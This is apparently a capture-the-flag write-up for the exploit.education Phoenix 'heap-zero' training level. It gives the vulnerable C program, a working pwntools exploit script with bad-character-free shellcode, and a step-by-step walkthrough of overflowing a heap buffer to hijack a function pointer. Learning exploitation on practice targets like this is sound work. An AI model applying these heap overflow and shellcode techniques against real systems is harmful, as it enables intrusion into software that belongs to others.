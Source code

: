 # Heap Zero

## Code
```c
/*
 * phoenix/heap-zero, by https://exploit.education
 *
 * Can you hijack flow control, and execute the winner function?
 *
 * Why do C programmers make good Buddhists?
 * Because they're not object orientated.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};

void winner() {
  printf("Congratulations, you have passed this level\n");
}

void nowinner() {
  printf(
      "level has not been passed - function pointer has not been "
      "overwritten\n");
}

int main(int argc, char **argv) {
  struct data *d;
  struct fp *f;

  printf("%s\n", BANNER);

  if (argc < 2) {
    printf("Please specify an argument to copy :-)\n");
    exit(1);
  }

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  strcpy(d->name, argv[1]);

  printf("data is at %p, fp is at %p, will be calling %p\n", d, f, f->fp);
  fflush(stdout);

  f->fp();

  return 0;
}
```

## Payload

```python
#!/usr/bin/env python
from pwn import *

SLED_LENGTH = 15    # Arbitrary length of a sled
BUFFER_LEN = 80 # Space of buffer until we overflow target addr
WINNER_FUNC = 0x400abd    # Addr of winner() -- has bad chars so we need to calculate
BEG_HEAP = 0x7ffff7ef6010   # Addr of the start of heap segment we control
                            # we will jump to this 

# * Build shellcode to load partial addr of winner() then add value to it to avoid bad bytes
# * We can't use "mov eax" either because that contains null-bytes which will be removed by us later
# * build the payload using "mov ax" and doing math on the registers to get the desired address

# xor eax, eax
# mov ax, 0x40
# shl eax, 0x10
# mov ax, 0x0abd
# jmp eax

# print(f"Subtracted 0xf0 from winner() addr: {(safe_winner)}")
sc = asm('xor eax, eax')
sc += asm('mov al, 0x40')
sc += asm('shl eax, 0x10')
sc += asm('mov ax, 0x0abd')
sc += asm('jmp eax')
print(disasm(sc))

payload = asm('nop') * SLED_LENGTH
payload += sc
payload += b'A' * (BUFFER_LEN - len(sc) - SLED_LENGTH)
payload += p64(BEG_HEAP)

# print(pwnlib.encoders.encoder.encode(payload, b'\x00', force=True))
# print(f"Payload before null removal: {payload}")

if b"\x00" in payload:
    print("[+] Removing null bytes!")
    payload = payload.replace(b"\x00", b"")
else:
    print("[+] No null bytes were removed")

# print(f"Payload after null removal: {payload}")
# print(len(payload))
# with open("./heap-zero-payload", "wb") as fd:
#     fd.write(payload)

p = process(["/opt/phoenix/amd64/heap-zero", payload])
print(p.recvall())
```

## Solution

- Based on the code above, the path to the goal of calling the function `winner()` is clear. There are two allocations that happen in the `main()` function for `d` and `f`. `d` becomes a pointer to a struct `data` which contains a buffer for a name which is provided by us via `argv[1]`. `f` is becomes a pointer to a struct `fp` which contains a void pointer which is later used as a function pointer. After the allocations, there is our wonderful insecure `strcpy()` function that copies our input from `argv[1]` into the `name` field of the `data` struct which is pointed to by `d`. This means that our string will be stored on the heap right before the `fp` struct which is pointed to by `f`. This means we can overflow the heap chunks allocated for `d->name` into the `f->fp` which should give us control of program execution. Let's try! 

- After the two calls to `malloc()` we can see that we have space given to us on the heap:

![](Pasted%20image%2020210413002114.png)

- This image above shows the space allocated for the `data` and `fp` structs. Halfway through you can see the address of the `nowinner()` function stored on the heap in the `fp` struct which `f` points to. We can now try giving some large input and see what happens.

![](Pasted%20image%2020210413002327.png)

- Here we gave 80 bytes of input in the form of `A`'s. We can clearly see that we have smashed through our chunk of the heap and overwritten the chunk header information that existed previously. We also added an extra byte `\xbd` which should overflow the lowest byte of the function pointer address and execute the `winner()` function. Unfortunately this does not happen for some reason. My suspicion lies with the byte `0x0a` which is a newline character. If you refer to the first screenshot, you can see that this byte exists in the value of `f->fp`.

- I am dumb and forgot that `0x0a` will stop `strcpy()` from continuing to copy bytes from source to the destination. This means that when we try to corrupt the address `strcpy()` will stop copying, and copy in a null byte which messes with any attempts to directly modify the value that `f->fp` contains. Luckily, the heap is executable so we can put shellcode there and return to it! 

![](Pasted%20image%2020210413004506.png)

- Although we can execute shellcode, we must take care to not have any _bad characters_ like null bytes or newlines which would stop `strcpy()` from copying all of our payload. Another thing we must keep in mind is that we are trying to call the function `winner()`. We can do this by pointing the function pointer into the heap segment we control and putting shellcode to jump to the `winner()` function. However, remember that `winner()` has a bad byte `0x0a` in its address. This means we will have to craft the address of `winner()` using some math to get around this bad char in our payload.

- To get around the back characters we can use the following shellcode:

![](Pasted%20image%2020210414115343.png)

- As you can see, the assembly code builds our target address by loading it in and shifting it around. We can't use `move eax` because this instruction will have null bytes which are not allowed as input and will be removed by our exploit script thus breaking the opcode. This method allows us to still exploit the target and avoid bad characters. Finally, you can see in the image above that `EIP` contains our target address which is the `winner()` function!

- All we do now is write the code in `heap0-exploit.py` and execute it to beat the level!

![](Pasted%20image%2020210414115759.png)
